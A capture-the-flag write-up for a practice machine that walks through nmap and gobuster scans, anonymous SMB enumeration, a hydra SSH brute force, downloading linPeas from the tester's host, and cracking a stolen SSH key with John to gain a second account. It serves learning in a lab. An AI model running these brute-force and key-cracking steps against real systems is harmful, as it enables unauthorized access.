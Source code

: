 # Basic_Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

In these set of tasks you'll learn the following:

- brute forcing
- hash cracking
- service enumeration
- Linux Enumeration

## Nmap Scanning

```bash
nmap -A -Pn -F -T4 10.10.231.147 -oN nmap_result.txt
```

```bash
# Nmap 7.92 scan initiated Tue Aug 15 15:13:57 2023 as: nmap -A -Pn -F -T4 -oN nmap_result.txt 10.10.231.147
Nmap scan report for 10.10.231.147
Host is up (0.46s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  tcpwrapped
| ssh-hostkey: 
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=7%CU=31614%PV=Y%DS=5%DC=T%G=Y%TM=64DBCEB
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=104%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=FE%GCD=1%ISR=104%TI=Z%CI=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=
OS:M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=68DF%W2=68
OS:DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: Host: BASIC2

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-08-15T15:14:48-04:00
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2023-08-15T19:14:48
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   541.31 ms 10.17.0.1
2   ... 4
5   598.08 ms 10.10.231.147

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 15 15:15:04 2023 -- 1 IP address (1 host up) scanned in 67.67 seconds
```

## Web Application Directory Scan

```bash
gobuster dir -u http://10.10.231.147/ -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![Screenshot 2023-08-16 013118.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/Screenshot_2023-08-16_013118.png)

## Enumerating the target machine

```bash
enum4linux -a [remote_host]
```

![Screenshot 2023-08-16 024019.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/Screenshot_2023-08-16_024019.png)

```bash
smbclient [//10.10.209.167/Anonymous](notion://10.10.209.167/Anonymous)
```

![Screenshot 2023-08-16 024219.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/Screenshot_2023-08-16_024219.png)

### staff.txt contain two username jan and kay

```bash
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

## Bruteforce ssh with hydra

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.209.167 -t 10
```

Password found “armando”

```bash
ssh jan@<remote_host>
```

First we will try to enumerate the target machine with linPeas

```bash
wget -r -np -nH --cut-dirs=0 -P /tmp/my_downloads http://10.17.11.201/linPeas
```

we cannot read pass.bak at the moment
but we can crack ssh key
copy id_rsa key from .ssh folder and save it on your machine as id_rsa

```
locate ssh2john.py
/usr/share/ssh2john.py id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## cracked hash.txt : beeswax

```
kay : b??????x
now we can ssh into machine using kay's id_rsa
but we need to change its permissions first
```

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa kay@10.10.209.167
```

## now we can read pass.bak

```bash
cat pass.bak
```